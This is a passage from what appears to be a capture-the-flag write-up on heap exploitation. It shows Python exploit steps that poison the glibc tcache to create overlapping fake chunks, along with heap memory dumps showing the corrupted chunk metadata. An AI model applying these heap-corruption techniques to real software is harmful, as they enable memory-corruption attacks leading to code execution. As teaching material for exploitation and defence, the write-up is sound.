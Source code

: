 The tcache now looks like:

```

(0x20)   tcache_entry[0](1): 0x55555555c2e0
(0x30)   tcache_entry[1](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
(0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
(0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )

```

#### Second Fake Chunk

I’ll now (after a bit of spacing) create another fake chunk roughly the same way:

```

add('x', 0x30)                                  # add for spacing, but used later
rm('x')

add('C', 0x60)   # create block to be freed and steal pointer in tcache - C = 340
add('D', 0x70, p64(0)*5 + p64(0xa1) + p64(0)) # create block and fake block to put fake block meta in place - D = 3b0
rm('D') # D in tcache 0x80
add('E', 0x60, p64(0x21)*11)   # create second 0x60, E, and spray with 0x21 for next block meta fake later, E = 430
rm('C')               # f1 empty, C in 0x70 tcache
edit('E', 0)      # slot 2 -> E, E->C in 0x70 tcache
add('E2', 0x60)  # slots 1 and 2 -> E, C in 0x70 tcache
rm('E')               # slot 1 -> E, E -> C in 0x70 tache
edit('E2', 0x60, b'\xe0') # edit tcache pointer, C -> fake2 in 0x70 tcache

# next three fetch C from tcache, and get rid of it without putting it back in 0x70 tcache
add('E3', 0x60)   # fetch E, fake in 0x70 tcache
edit('E3', 0x20)  # E-end in 0x30 tcache
rm('E3')          # E in 0x50 tcache

add('fake2', 0x60, p64(0)*9 + p64(0x31) + p64(0))   # get fake block, change key for E
rm('E2') # C
add('B', 0x70) # B

```

I do the same thing here, though this time I have another block between the one I steal the pointer from and the one with that pointer. At the end, I’m left with handles to two overlapping blocks. The fake block reports to have size 0xa1 (despite the fact that I can’t make blocks that big in this program), and the other one is before it able to write into this block.

```
-----------------------------------
[0x000055555555c3b0] B       : x
[0x000055555555c3e0] fake2   : 
-----------------------------------
0x55555555c3a0: 0x0000000000000000      0x0000000000000081  <-- B meta
0x55555555c3b0: 0x0000000000000a78      0x0000000000000000
0x55555555c3c0: 0x0000000000000000      0x0000000000000000
0x55555555c3d0: 0x0000000000000000      0x00000000000000a1  <-- fake2 meta
0x55555555c3e0: 0x0000000000000000      0x0000000000000000
0x55555555c3f0: 0x0000000000000000      0x0000000000000000
0x55555555c400: 0x0000000000000000      0x0000000000000000
0x55555555c410: 0x0000000000000000      0x0000000000000000
0x55555555c420: 0x0000000000000000      0x0000000000000031  <-- E meta
-----------------------------------
...[snip]...
                  top: 0x55555555c490 (size : 0x20b70) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```